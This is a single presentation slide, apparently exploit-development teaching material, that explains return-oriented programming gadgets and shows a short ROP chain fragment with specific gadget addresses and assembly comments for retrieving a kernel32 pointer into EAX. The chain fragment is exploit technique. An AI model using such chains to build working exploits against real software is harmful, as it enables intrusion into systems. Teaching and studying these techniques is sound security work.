

# Gadget Shellcode
Gadgets are a series of assembly instructions ending in a return instruction

Shellcode is executed by creating a fake call stack that will chain a series of instruction blocks together

## Grab kernel32 pointer from the stack, place it in EAX ##

rop += "\x5D\x1C\x12\x10" * 6  # 0x10121C5D :
                               # SUB EAX,30
                               # RETN
rop += "\xF6\xBC\x11\x10"      # 0x1011BCF6 :
                               # MOV EAX, DWORD PTR DS:[EAX]
                               # POP ESI
                               # RETN
rop += rop_align